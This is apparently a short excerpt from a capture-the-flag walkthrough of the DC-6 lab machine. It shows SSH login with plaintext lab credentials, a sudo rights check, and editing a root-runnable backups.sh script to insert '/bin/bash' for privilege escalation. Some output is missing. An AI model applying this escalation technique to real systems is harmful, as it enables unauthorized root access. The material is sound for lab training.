

5.1 Connect via SSH
a) We know port 22 is open for “ssh”. Try to connect with “ssh” using:
Username: graham
Password: GSo7isUM1D4
$ssh
graham@192.168.12.68
b) Check for sudo rights.
$sudo
-l
Output:

As you see “jens” can execute the file “backups.sh” as “root”.
c) Modify the file adding the following line and deleting the 2nd one.
Add -> "/bin/bash"
Delete -> “tar -czf backups.tar.gz /var/www/html”
graham@dc-6
:/
home
/
jens$ nano backups.sh
Output:
!/bin/bash
/bin/bash
Index